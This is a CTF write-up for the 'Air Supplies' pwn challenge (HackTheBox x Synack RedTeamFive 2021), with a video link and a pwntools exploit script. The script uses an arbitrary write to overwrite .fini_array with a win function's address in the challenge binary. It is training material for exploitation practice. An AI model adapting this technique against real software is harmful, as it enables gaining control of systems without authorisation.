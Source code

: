 ```yaml
---
name: Air Supplies (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Pwn
description: Writeup for Air Supplies (pwn) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Air Supplies

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Kqu3qpYMml8/0.jpg)](https://youtu.be/Kqu3qpYMml8?t=2276s "HackTheBox x Synack RedTeamFive 2021: Air Supplies")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './air_supplies'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

io.sendlineafter('>', '2')  # Yes, I'm ready
io.sendlineafter('Insert what kind of supply to drop:', str(elf.symbols.__init_array_end))  # Write over .fini_array
io.sendlineafter('Insert location to drop:', str(elf.symbols._))  # With the win function

io.interactive()
```
{% endcode %}
